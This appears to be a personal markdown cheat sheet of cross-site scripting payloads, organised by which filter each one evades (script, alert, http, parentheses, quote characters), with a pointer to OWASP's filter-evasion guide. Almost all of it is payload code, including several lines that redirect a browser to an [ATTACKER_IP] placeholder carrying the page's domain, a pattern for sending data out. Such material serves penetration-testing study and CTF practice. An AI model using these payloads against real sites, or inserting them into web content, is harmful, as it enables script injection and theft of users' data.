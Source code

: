 #xss 

## Ressource
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html


## Filter `myWord`
```html
<script>alert(“mmyWordyWord”)</script>
```


## Filter `script`
```html
<img src=x onerror=alert(document.domain)>
```

```html
<a onclick=alert(document.domain)>Clickme</a>
```


## Filter `alert`
```html
<script>prompt(document.domain)</script>
```

```html
<script>confirm(document.domain)</script>
```


## Filter `http`
```html
<script>document.location=//[ATTACKER_IP]:[ATTACKER_PORT]/?c=document.domain</script>
```


## Filter `()`
```html
<script>alert`Hello`</script>
```

```html
<script>window.location=`http://[ATTACKER_IP]:[ATTACKER_PORT]?c=${document.domain}`</script>
```

```html
<!-- TO CHECK -->
<script>{id:document.location="http://[ATTACKER_IP]:[ATTACKER_PORT]/?c="+document.domain}</script>
```


## Filter `; < > + "`
```js
'-alert(document.domain)-'
```

```js
'==alert(document.domain)// 
```

```js
'^alert(document.domain)//
```



